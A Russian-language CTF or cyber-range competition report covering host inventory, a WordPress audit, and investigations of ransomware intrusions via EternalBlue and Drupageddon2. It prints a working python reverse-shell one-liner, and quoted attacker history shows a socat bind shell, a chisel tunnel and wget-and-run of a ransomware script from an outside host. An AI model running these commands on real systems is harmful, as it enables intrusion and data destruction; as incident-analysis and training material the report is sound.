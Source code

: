 # SHP_Legacy. Итоговый отчет.

[https://github.com/LeKSuS-04/SHP_Legacy-NTO-IB-2022](https://github.com/LeKSuS-04/SHP_Legacy-NTO-IB-2022)

# Инвентаризация хостов в сети.

Итоговая таблица с хостами — [https://docs.google.com/spreadsheets/d/1Te-sVO8-XK4EdTF308-Wo0M87aBSfwMA8wRlS6GVnMY/edit#gid=0](https://docs.google.com/spreadsheets/d/1Te-sVO8-XK4EdTF308-Wo0M87aBSfwMA8wRlS6GVnMY/edit#gid=0)

Просканировав все сегменты сети сканером портов определим версии ПО установленного на конеченых устройствах. С помощью этих данных выделим уязвимые машины, их всего 6:

1. 10.21.2.11 — Уязвим к Drupageddon2(CVE-2018-7600)
2. 10.21.2.12 — Уязвим к Eternalblue(CVE-2017-0144)
3. 10.21.4.8 — Уязвим к Eternalblue(CVE-2017-0144)
4. 10.21.239.5 — Уязвим к Eternalblue(CVE-2017-0144)
5. 10.21.239.6 — Уязвим к Eternalblue(CVE-2017-0144)
6. 10.21.240.14 — Уязвим к Eternalblue(CVE-2017-0144)

Данные машины представляют для нас наибольший интерес, тк будучи уязвимыми, они наверняка подверглись атаки, так что расследование инцидентов разумно начинать с них.

Так же на ip 10.21.1.254 находится IDS Suricata.

Более подробно ознакомится с хостами можно в таблице, указанной выше.

# Аудит сайта с WordPress(10.21.2.10).

На данном веб-сайте используются стандартные учетные данные для администраторской учетной записи(admin:admin), вход за которую дает полный контроль над сайтом. Более того, WP имеет функционал загрузки и запуска плагинов, что позволяет прокинуть реверс шелл на саму машину. Достаточно загрузить плагин, который его прокидывает и запустить его. Либо же воспользоваться существующими эксплойтами для метасплойта, например этим: [https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_admin_shell_upload/](https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_admin_shell_upload/)

Таким образом мы получаем удаленный доступ к машине за юзера www-data. Изучив окружение, можго заметить, что python запускается от sudo без пароля, что позволяет получить рут доступ к машине. Например с помощью след команды:

```bash
sudo python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.21.5.12",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

Для закрытия этих уязвимостей необходимо поменять пароль администратора WP на любой надежный. А также поставить пароль на запуск python’а от имени sudo юзера. 

# Расследование атаки на 10.21.239.6.

С помощью уязвимости eternalblue можно удаленно подключатся к уязвимым хостам, на одном из хостов на ip 10.21.239.6 в папке share находим зашифрованные файлы, в том числе зашифрованный флаг. 

При детальном изучении логов powershell'a становится понятно, как именно произвоидлась атака:

1. Злоумышленник проникает в систему через уязвимость eternalblue.
2. Злоумышленник скачивает шифровальщик Ransom.ps1 с ip 10.21.200.50.
3. Шифровальщик использует AES CBC с длинной блока в 128 бит и длиной ключа в 256 бит.
4. При запуске шифровальщика генерируются ключ и iv и отправляются обратно злоумышленнику вместе с именем компьютера на тот же ip.
5. Далее шифруются все файлы .pdf, .txt, .doc, .docx, .jpg.

Найдя в логах нужный запрос, можно узнать iv и ключ, а соответсвенно расшифровать все файлы. Нужный нам запрос: 

```bash
http://10.21.200.50/key=Z2igSNGo+qfqpeHho2EL+Q9bljHZc8GsnJZ9F0MOPPY=&iv=ouzDB5yS8sOQR8gBiQ+hIw==&pc=OIK-CLIENT"
```

Зная ключ и IV с легкостью дешифруем файлы с помощью скрипта decryptor.py

Прочитаем флаг: Gravissimum est imperium consuetudinis.

# Расследование атаки на Киберполигон(10.21.2.11).

На данной машине используется drupal7 , уязвимый к CVE-2018-7600(drupageddon2). Данная уязвимость позволяет получить удаленный доступ к машине за юзера www-data.

Подключившись к машине находим в папке /var/www/html зашифрованные php файлы и флаг. 

Также обнаруживается исполняемый файл sploit, который является эксплойтом для повышения привилегий до root юзера через уязвимость Dirty Cow(CVE-2016-5195). Данный файл был оставлен злоумышленником.

При изучении файла .bash_history у рут юзера находим следующие строки:

```bash
setsid /var/www/html/socat tcp-l:8081,reuseaddr,fork exec:/bin/bash,pty,setsid,setpgid,stderr,ctty&&exit
id;echo 0 > /proc/sys/vm/dirty_writeback_centisecs;exit
setsid /var/www/html/chisel client 10.21.200.50:8083 R:socks 2>1 > /dev/null && exit
cd /var/www/html/; rm *.encr chisel* socat* sploit*; pkill -f socat; pkill -f chisel; cp /home/debian/drupal-7.54/*.php /var/www/html
setsid /var/www/html/socat tcp-l:8081,reuseaddr,fork exec:/bin/bash,pty,setsid,setpgid,stderr,ctty&&exit
id;echo 0 > /proc/sys/vm/dirty_writeback_centisecs;exit
setsid /var/www/html/chisel client 10.21.200.50:8083 R:socks 2>1 > /dev/null && exit
wget http://10.21.200.50/encr.sh -O /var/www/html/encr.sh;exit
chmod -R 777 /var/www/html;exit
/var/www/html/encr.sh;exit
rm -f /var/www/html/shell.php;exit
rm -f /var/www/html/encr.sh;exit
rm -f /var/www/html/sploit.c;exit
```

А в файле syslog.7 в /var/logs/ находим следующую команду:

```bash
Mar  5 17:38:33 osan-portal2 tag_audit type=EXECVE msg=audit(1646482548.904:45916): argc=13 a0="openssl" a1="enc" a2="-aes-256-cbc" a3="-a" a4="-salt" a5="-in" a6="/var/www/html/21FLAG.txt" a7="-out" a8="/var/www/html/21FLAG.txt.encr" a9="-pass" a10="pass:8735176D7C" a11="-iv" a12="F81D977E1765638912EFD58FA7BC33A5"
```

Таким образом можно восстановить последовательность действий злоумышленника:

1. С помощью CVE-2018-7600(drupageddon2) получает удаленный доступ к машине.
2. Скачивает sploit для повышения привилегий до root через CVE-2016-5195(Dirty Cow) и повышает их.
3. Прокидывает туннель к себе на сервер через утилиту chisel и скачивает файл encr.sh.
4. Шифровальщик [encr.sh](http://encr.sh) шифрует файлы, используя утилиту openssl.
5. Удаляет компрометирующие файлы.

Зная IV и ключ дешифруем файлы при помощи команды:

```bash
openssl aes-256-cbc -d -a -in 21FLAG.txt.encr -out flag.txt -iv F81D977E1765638912EFD58FA7BC33A5 -pass "pass:8735176D7C"
```

Флаг: Ante volare cave, quam procrescant tibi pennae.

Для устранения этих уязвимостей необходимо обновить Drupal и Debian до актуальных версий.